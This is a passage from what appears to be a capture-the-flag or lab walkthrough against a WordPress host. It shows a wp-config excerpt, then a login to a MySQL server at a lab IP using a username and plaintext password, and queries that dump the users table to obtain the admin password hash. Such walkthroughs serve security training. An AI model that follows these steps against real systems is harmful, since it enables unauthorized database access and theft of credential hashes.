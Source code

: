 ```bash
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wptry_';
```

### 7. Login to MySQL Server:

 Make sure msql is installed:

 ```bash
 apt install mysql-client
 apt install mysql-client-core-5.7   
 apt install mariadb-client-core-10.1
 ```

new bash
```bash
mysql -h 10.10.153.214 -u thedarktangent -p 
enter password:
sUp3rS3cret132
```

get db version
```bash
SELECT version();
```

get port
```bash
show variables LIKE 'port';
```

### 8. Show databases and get the admin user password hash:

in msql server
```bash
show databases;
```

choose the db
```bash
use wordpressdb2;
show tables;
```

select everything form the users table:
```bash
SELECT * FROM wptry_users;
```
